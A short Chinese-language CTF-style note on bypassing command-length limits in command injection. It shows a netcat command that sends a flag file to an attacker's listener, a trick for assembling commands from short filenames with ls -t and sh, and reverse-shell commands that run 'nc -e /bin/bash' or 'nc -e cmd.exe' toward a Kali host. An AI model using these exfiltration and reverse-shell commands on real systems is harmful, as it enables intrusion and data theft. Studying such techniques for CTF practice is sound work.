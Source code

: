 ```
cat flag|nc 192.168.1.161 7777
```

kail的ip地址192.168.1.161

监听端口7777

```
方法
nc -lvp 7777
```

通过cat flag展示内容，再通过nc反弹，提交到192.168.1.161:777，最后通过监听端口获得内容



用以下方法进行拼接

> \>创建很短的的文件名
>
> ls -t按时间顺序列出文件名，按行储存
>
> \连接换行命令
>
> sh从文件中读取命令

![image-20240425150646487](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404251506528.png)



最后用sh a执行命令

**nc反弹shell**

**在 Kali Linux 上监听连接**

```
nc -lvp <监听端口>
```

 **在目标主机上发起连接请求**

linux

```
nc -e /bin/bash <kali的IP> <kali监听端口>
```

windows

```
nc -e cmd.exe <kali的IP> <kali监听端口>
```



------



#### 长度限制为5的绕过方法

![image-20240507140631920](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405071406094.png)
